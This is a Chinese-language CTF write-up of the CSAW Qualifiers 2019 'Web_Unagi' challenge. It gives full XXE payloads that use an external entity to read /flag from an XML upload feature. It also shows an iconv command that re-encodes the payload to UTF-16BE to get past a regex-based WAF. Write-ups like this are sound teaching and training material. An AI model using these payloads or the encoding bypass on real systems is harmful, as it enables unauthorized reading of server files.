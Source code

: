 # [CSAWQual 2019]Web_Unagi

## 知识点

`xxe`

`编码绕过WAF保护的XXE`

## 解题

![](./img/[CSAWQual 2019]Web_Unagi-1.png)

`About`提示`flag`在`/flag`文件，进入`Upload`发现可以上传文件，给了个上传文件的示例

![](./img/[CSAWQual 2019]Web_Unagi-2.png)

![](./img/[CSAWQual 2019]Web_Unagi-3.png)

先尝试上传正常文件看一下回显

![](./img/[CSAWQual 2019]Web_Unagi-4.png)

除了`username`和`password`列都会显示，尝试利用`xxe`

```xml
<?xml version="1.0"?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag">]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>Alice</name>
<email>alice@fakesite.com</email>
<group>&xxe;</group>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>
```

![](./img/[CSAWQual 2019]Web_Unagi-5.png)

被`WAF`拦下来了，可以通过`编码`绕过`WAF`，[参考文章配枪朱丽叶](https://www.shawroot.cc/156.html)

> 一个xml文档不仅可以用UTF-8编码，也可以用UTF-16(两个变体 - BE和LE)、UTF-32(四个变体 - BE、LE、2143、3412)和EBCDIC编码。
>
> 在这种编码的帮助下，使用正则表达式可以很容易地绕过WAF，因为在这种类型的WAF中，正则表达式通常仅配置为单字符集。

在`linux`使用`iconv`转编码

`1.xml`的内容

```xml
<?xml version="1.0"?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag">]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>Alice</name>
<email>alice@fakesite.com</email>
<group>&xxe;</group>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>
```

转`编码`为`UTF-16BE`

```bash
iconv 1.xml -f UTF-8 -t UTF-16BE -o 2.xml
```

然后上传`2.xml`，发现可以正常绕过，但是`flag`显示不全

![](./img/[CSAWQual 2019]Web_Unagi-6.png)

加个`intro`元素即可

```xml
<?xml version="1.0"?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag">]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>&xxe;</name>
<email>&xxe;</email>
<group>&xxe;</group>
<intro>&xxe;</intro>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>
```

![](./img/[CSAWQual 2019]Web_Unagi-7.png)